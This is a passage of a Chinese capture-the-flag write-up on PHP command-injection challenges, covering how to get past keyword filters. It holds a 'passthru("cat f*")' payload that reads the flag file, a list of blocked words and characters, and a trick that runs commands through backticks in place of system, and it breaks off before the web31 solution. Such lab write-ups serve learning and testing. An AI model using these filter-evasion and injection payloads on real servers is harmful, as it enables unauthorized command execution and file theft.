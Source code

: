 屏蔽了flag、system、php

根据web29讲的，进行更改指令

```
?c=passthru("cat f*");
```

![image-20231216114229789](image/image-20231216114229789.png)

得到flag

------



#### web31

分析

![image-20231216114253908](image/image-20231216114253908.png)

这次过滤的有些多，过滤了以下字节

```
flag、system、php、cat、sort、shell、\.、空格、\'
```

这次我们试一下新命令

```
?参数=echo(`指令`);
system可以用 ` 反引号来代替去执行命令
所以也可以用
?参数=echo`指令`;
```

那这题我们就可以写成

